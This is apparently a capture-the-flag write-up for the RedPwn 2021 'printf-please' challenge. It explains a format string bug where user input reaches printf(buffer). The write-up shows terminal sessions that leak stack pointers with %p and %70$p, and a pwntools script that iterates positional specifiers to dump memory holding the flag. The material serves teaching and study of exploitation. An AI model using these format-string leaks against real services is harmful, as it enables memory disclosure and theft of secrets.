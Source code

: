 So the prgram sets a 512 bytes allocation for the buffer and 512 bytes for the flag (0x200 = 512). It then sets the buffer and flag with 0s. The program then opens a `flag.txt` and reads the file and puts the `flag` part of the memory.

The program then asks for useinput, this time using `strcspn()`, safer then `gets()` of course. So probably not a buffer overflow. But, if the userinput contains `please`, it `printf()`s the entire buffer, and there's the attack vector

```c
printf(buffer);
```

No format mentioned. So the program should be vulnerable to format string exploits. Let's try some common attacks.


```
❯ ./please
what do you say?
please %d
please 177207190 to you too!
 ~/CTF/RedPwn2021/writeup_RedPwn2021/pwn/SOLVED_printf-please │ pwn ?1 12:34:05 PM
❯ ./please
what do you say?
please %p
please 0x7ffe1cfe98d6 to you too!
```

We have memory leaks.


3. We make a fake `flag.txt` file and fill it with `AABBCCDDEEFFGGHHIIJJKKLLMMNNOOPP`s to simulate the server. Then we write a python script which iterates through some numbers and try to print the i'th pointer in memory using this vulnerability. It is to be noted, we can take the xth address from memory using the format `please %x$p`. So if we want the 70th address we can input `please %70$p`\

```
❯ ./please
what do you say?
please %70$p
please 0x5a5a5a5a5a5a5a5a to you too!
```

We use pwntools in the python script

```python
from pwn import *

context.log_level = 'critical'

for i in range(0, 100):


    #s = remote('mc.ax', 31569)
    s = process('./please')

    s.recvline()
    s.sendline('please %' + str(i) + '$p')

    try:
        output = str(s.recv())
        print(str(i) + " > " + output)
    except:
      #s.close()
      s.shutdown()

    #s.close()
    s.shutdown()
```
